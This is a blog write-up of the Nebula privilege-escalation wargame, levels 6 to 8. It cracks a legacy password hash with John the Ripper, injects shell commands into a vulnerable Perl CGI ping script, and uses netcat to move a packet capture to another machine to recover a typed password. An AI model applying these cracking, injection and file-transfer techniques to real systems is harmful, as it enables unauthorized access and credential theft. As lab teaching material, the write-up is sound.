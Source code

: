 ```yaml
---
title: "Writeup: nebula (level 6 - level 8)"
date: 2020-12-19T16:05:18+08:00
draft: false
---
```


Nebula is a virtual machine that covers a variety of challenges about Linux privilege escalation, scripting language issues, and file system race conditions. It is available at [Exploit Exercises](https://exploit-exercises.lains.space/).

<br>

## Level 6

The description of Level 6 is provided as follows.

```
The flag06 account credentials came from a legacy unix system.

To do this level, log in as the level06 account with the password level06. 
Files for this level can be found in /home/flag06.
```

If you are not familiar with the password file (/etc/passwd) and shadow file (/etc/shadow) in the Unix-based system, you can check this [post](https://chuang76.github.io/posts/users_and_groups/) I wrote before. In this challenge, we are going to use the password file to get the flag. 

Let's check the contents of /etc/passwd first. The second field is about password information, i.e., encrypted password. In the modern system, the second field is typically stored as `x`, which means the actual content is maintained in another file called /etc/shadow.

![](https://github.com/chuang76/image/blob/master/06-1.PNG?raw=true)

However, this is a legacy Unix system, the password is not "hidden" in the shadow file. So we can use [John The Ripper](https://zh.wikipedia.org/wiki/John_The_Ripper), a free crafting passwords tool to decode the password. 

```
$ cat passwd
flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh

$ john passwd
Loaded 1 password hash (descrypt, traditional crypt(3) [DES 128/128 SSE2-16])
Press 'q' or Ctrl-C to abort, almost any other key for status
hello            (flag06)
1g 0:00:00:00 100% 2/3 20.00g/s 15060p/s 15060c/s 15060C/s 123456..marley
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Now, we have the decoded password, i.e., "hello". Let's use it to log in as account flag06 and get the flag. 

![](https://github.com/chuang76/image/blob/master/06-2.PNG?raw=true)

<br>

## Level 7

Here is the description of Level 7.

```
The flag07 user was writing their very first perl program that allowed them to 
ping hosts to see if they were reachable from the web server.

To do this level, log in as the level07 account with the password level07. 
Files for this level can be found in /home/flag07.
```

The contents in /home/flag07 can be displayed as follows. 

![](https://github.com/chuang76/image/blob/master/07-1.PNG?raw=true)

Let's view the contents of the file index.cgi. It is a CGI script written in Perl. [CGI](https://en.wikipedia.org/wiki/Common_Gateway_Interface) (Common Gateway Interface) is a specification for web servers to execute programs like command-line running on a server that generates dynamic web pages. As you can see, we need to provide the parameter Host to index.cgi. Then, the ping result will be displayed on the screen. We can check that if index.cgi works successfully or not.

![](https://github.com/chuang76/image/blob/master/07-3.PNG?raw=true)

```
#!/usr/bin/perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub ping {
  $host = $_[0];

  print("<html><head><title>Ping results</title></head><body><pre>");

  @output = `ping -c 3 $host 2>&1`;
  foreach $line (@output) { print "$line"; }

  print("</pre></body></html>");
  
}

# check if Host set. if not, display normal page, etc

ping(param("Host"));
```

Subsequently, let's view the contents of the file thttpd.conf. [Thttpd](https://en.wikipedia.org/wiki/Thttpd) is a simple web server, and thttpd.conf is its configure file. Here is the part of thttpd.conf. As you can see, thttpd is listening to the port 7007, running with our target account fla07, and it supports the CGI program, index.cgi. 

```
port=7007
dir=/home/flag07
user=flag07
cgipat=**.cgi
```

So, we can use wget command to retrieve the response. For example, we can get the result of whoami. Note that the semicolon (;) character should be encoded as "%3B" in URL. 

![](https://github.com/chuang76/image/blob/master/07-4.PNG?raw=true)

Here is the flag. 

![](https://github.com/chuang76/image/blob/master/07-5.PNG?raw=true)

<br>

## Level 8

The description of Level 8 is provided as follows. 

```
World readable files strike again. Check what that user was up to, 
and use it to log into flag08 account.

To do this level, log in as the level08 account with the password level08. 
Files for this level can be found in /home/flag08.
```

Here is the contents of the directory /home/flag08. [Tcpdump](https://en.wikipedia.org/wiki/Tcpdump) is a free tool that allows users to capture packets. As you can see, capture.pcap is a tcpdump capture file. It is a file that contains packet information. 

![](https://github.com/chuang76/image/blob/master/08-1.PNG?raw=true)

The file capture.pcap is not human-readable if we try to view its contents with cat command. Instead, we should use tcpdump -r to view the contents.  

![](https://github.com/chuang76/image/blob/master/08-2.PNG?raw=true)

![](https://github.com/chuang76/image/blob/master/08-3.PNG?raw=true)

Next, we are going to analyze these packet information. We can use [Wireshark](https://en.wikipedia.org/wiki/Wireshark), a powerful packet analyzer, to analyze the file. Since we don't have the permission to install the tool, we are not able to use Wireshark on Nebula. So let's transfer the captured file to our personal machine (e.g. in my case is Kali Linux), then analyze the file on our personal machine.  

If you are not familiar that how to make two virtual machines communication, you can check this [video](https://www.youtube.com/watch?v=vReAkOq-59I). After setting up the network, we can use [netcat](https://en.wikipedia.org/wiki/Netcat) (nc) command to transfer the file as follows. That is, the machine is running nc in listening mode on port 9527.

```
$ nc -l -p 9527 > capture.pcap
```

Subsequently, run the following command to make Nebula send the file to our personal machine. The IP address may be different depends on different machine and setting, you can check the related information via ifconfig command. The IP address of my personal machine is 192.168.100.6. 

```
$ nc 192.168.100.6 9527 < /home/flag08/capture.pcap
```

Open Wireshark on Kali Linux. 

![](https://github.com/chuang76/image/blob/master/08-4.PNG?raw=true)

Follow TCP stream, as you can see, it shows Password: backdoor...00Rm8.ate. However, the dot symbol does not represent the "dot" literally. It means some characters that are non-printable on Wireshark. 

![](https://github.com/chuang76/image/blob/master/08-5.PNG?raw=true)

Let's move on. We need to figure out what is the actual password. We can start at the No. 43 packet, which contains the character Password:. 

![](https://github.com/chuang76/image/blob/master/08-8.PNG?raw=true)

Then, we can focus on what character is transfer from 59.233.235.218 (the user who types the password) to 59.233.235.223. In the Windows system, the key Enter is represented as carriage return (CR, 0x0d) and line feed (LF, 0x0a). The characters that ends at 0x0d and 0x0a can be collected as follows. 

```
'b', 'a', 'c', 'k', 'd', 'o', 'o', 'r', 0x7f, 0x7f, 0x7f, '0', '0', 'R', 'm', '8', 0x7f, 'a', 't', 'e'
```

After checking the ASCII table, we can know that 0x7f means delete. Hence, the actual password is back00Rmate. 

```
backdoor
     ^^^      delete 
back00Rm8
        ^     delete
back00Rmate 
```

Here is the flag. 

![](https://github.com/chuang76/image/blob/master/08-7.PNG?raw=true)

